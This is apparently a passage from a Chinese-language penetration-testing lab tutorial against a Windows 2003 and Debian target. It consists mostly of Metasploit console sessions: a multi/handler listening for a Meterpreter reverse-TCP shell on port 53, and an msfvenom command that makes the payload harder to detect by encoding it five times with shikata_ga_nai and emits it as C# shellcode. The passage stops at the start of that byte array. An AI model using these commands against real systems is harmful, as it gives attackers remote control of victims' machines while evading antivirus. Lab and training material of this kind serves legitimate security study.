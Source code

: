 **靶机背景：**

Windows 2003

Debian

Windows 2003：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163223845.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163230475.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    msf auxiliary(server/socks4a) > use exploit/multi/handler
    msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp_uuid 
    payload => windows/meterpreter/reverse_tcp_uuid
    msf exploit(multi/handler) > set lhost 192.168.1.5 
    lhost => 192.168.1.5
    msf exploit(multi/handler) > set lport 53 
    lport => 53
    msf exploit(multi/handler) > set stageencoder x86/shikata_ga_nai
    stageencoder => x86/shikata_ga_nai
    msf exploit(multi/handler) > set EnableStageEncoding true
    EnableStageEncoding => true
    msf exploit(multi/handler) > set exitonsession false
    exitonsession => false
    msf exploit(multi/handler) > show options 
    
    Module options(exploit/multi/handler):
    
    Name Current Setting Required Description 
    ---- --------------- -------- -----------
    
    Payload options (windows/meterpreter/reverse_tcp_uuid):
    
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)
    LHOST 192.168.1.5 yes The listen address
    LPORT 53 yes The listen port
    
    Exploit target:
    
    Id Name
    -- ----
    0 Wildcard Target
    
    msf exploit(multi/handler) > exploit -j -z
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163522700.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**payload生成：**

    root@John:tmp# msfvenom -a x86 -p windows/meterpreter/reverse_tcp_uuid
    LHOST=192.168.1.5 LPORT=53 EnableStageEncoding=true
    stageencoder=x86/shikata_ga_nai -e x86/shikata_ga_nai -i 5 -f csharp
    /usr/share/metasploit-framework/lib/msf/core/opt.rb:55: warning: constant
    OpenSSL::SSL::SSLContext::METHODS is deprecated
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 401 (iteration=0) x86/shikata_ga_nai succeeded with size 428 (iteration=1) x86/shikata_ga_nai succeeded with size 455 (iteration=2) x86/shikata_ga_nai succeeded with size 482 (iteration=3)
    x86/shikata_ga_nai succeeded with size 509 (iteration=4) x86/shikata_ga_nai chosen with final size 509
    Payload size: 509 bytes
    Final size of csharp file: 2610 bytes
    byte[] buf = new byte[509] {
    0xd9,0xcc,0xd9,0x74,0x24,0xf4,0x5a,0xb8,0x76,0x1e,0x3d,0x54,0x2b,0xc9,0xb1,